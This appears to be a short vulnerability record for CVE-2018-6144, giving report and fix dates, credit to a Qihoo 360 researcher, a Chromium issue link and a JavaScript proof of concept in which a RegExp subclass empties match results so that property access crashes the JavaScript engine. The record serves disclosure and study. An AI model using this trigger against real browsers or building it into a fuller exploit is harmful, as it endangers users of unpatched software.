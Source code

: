 # CVE-2018-6144

- Report: May 2018
- Fix: May 2018
- Credit: Guang Gong of Alpha Team, Qihoo 360

## PoC

```javascript
class MyRegExp extends RegExp {
  exec(str) {
    const r = super.exec.call(this, str);
    if (r) r.length=0;
    return r;
  }
}
const result = 'a'.match(new MyRegExp('.', 'g'));
var crash = result[0].x;
```

## Reference

- [Issue](https://crbug.com/843022)
